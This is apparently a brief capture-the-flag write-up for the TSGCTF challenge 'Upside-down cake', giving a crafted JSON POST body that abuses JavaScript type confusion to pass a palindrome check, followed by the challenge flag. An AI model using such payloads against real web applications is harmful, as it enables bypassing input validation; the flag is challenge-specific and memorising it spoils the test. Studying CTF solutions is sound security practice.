 # Upside-down cake Writeup (ja)

## Solution

`POST /`

```json
{
  "palindrome": {
    "length": "a",
    "0": "h",
    "NaN": "h"
  }
}
```

## Flag

`TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}`
